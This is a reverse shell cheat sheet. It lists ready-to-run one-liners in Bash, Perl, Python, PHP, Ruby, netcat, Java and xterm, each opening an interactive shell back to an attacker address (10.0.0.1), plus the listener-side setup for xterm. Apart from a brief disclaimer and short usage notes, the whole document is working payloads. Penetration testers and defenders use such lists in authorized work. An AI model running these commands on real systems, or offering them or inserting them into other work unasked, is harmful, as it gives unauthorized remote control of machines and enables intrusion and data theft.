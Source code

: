 # Reverse Shell Cheat Sheet
`These information may be used for legal purposes only.  Users take full responsibility for any actions performed using what they learned.  The author accepts no liability for damage caused.  If these terms are not acceptable to you, then do not use any of it.`

```The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.```

## Bash
~~~
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
~~~
## PERL
~~
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
~~

## Python
tested under Linux / Python 2.7:
~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

## PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5 or 6
~~~
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
~~~

## Ruby
~~~
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
~~~

## Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
~~~
nc -e /bin/sh 10.0.0.1 1234
~~~

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
~~~
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
~~~

## Java
~~~
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
~~~

## xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
~~~
xterm -display 10.0.0.1:1
~~~

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
~~~
Xnest :1
~~~

You’ll need to authorise the target to connect to you (command also run on your host):
~~~
xhost +targetip
~~~
